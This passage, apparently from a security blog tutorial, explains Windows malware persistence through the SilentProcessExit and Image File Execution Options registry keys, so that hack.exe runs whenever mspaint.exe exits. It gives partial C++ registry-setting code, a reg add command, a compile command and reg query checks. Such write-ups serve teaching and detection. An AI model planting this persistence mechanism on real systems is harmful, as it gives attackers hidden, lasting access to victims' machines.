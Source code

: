 So what have we done here? Firstly, we created `SilentProcessExit` key under `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion`, then  enabled silent process exit monitoring feature by adding `GlobalFlag`:    

```cpp
//...

LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);

//...
//...

// reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, (const BYTE*)&gF, sizeof(gF));
//...
```

By setting `MonitorProcess` to `...\hack.exe` and `ReportingMode` to `1`, every silent exit of `mspaint.exe` will now trigger the execution of our "malware" `hack.exe`:     

```cpp
//...

RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, (const BYTE*)&rM, sizeof(rM));
RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
```

### demo

Let's go to see everything in action. Compile malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/68/2022-09-11_15-52.png){:class="img-responsive"}    

Run it, just for check correctness:    

![pers](/assets/images/68/2022-09-11_16-03.png){:class="img-responsive"}    


So, check registry keys before:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

![pers](/assets/images/68/2022-09-11_15-58.png){:class="img-responsive"}    

also `SilentProcessExit`:    

```powershell
req query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit" /s
```

